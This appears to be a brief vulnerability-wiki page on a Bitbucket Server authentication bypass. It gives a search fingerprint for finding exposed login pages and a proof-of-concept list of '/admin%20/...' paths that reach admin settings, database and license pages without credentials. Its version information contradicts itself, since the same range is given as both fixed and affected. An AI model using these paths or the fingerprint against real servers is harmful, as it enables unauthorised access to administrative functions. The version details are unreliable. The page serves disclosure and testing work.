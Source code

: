# Bitbucket Login bypass vulnerability

## Vulnerability Description

This error has been fixed and deployed on Bitbucket Server > 4.8. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Bitbucket Server > 4.8</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">title="Log in - Bitbucket"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1646803634647-f4c4a968-440a-4dd0-8e1b-24955401b1f4.png)

Verify POC

```javascript
/admin%20/mail-server
/admin%20/db
/admin%20/db/edit
/admin%20/license
/admin%20/logging
/admin%20/server-settings
/admin%20/authentication
/admin%20/avatars
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20220318011106473.png)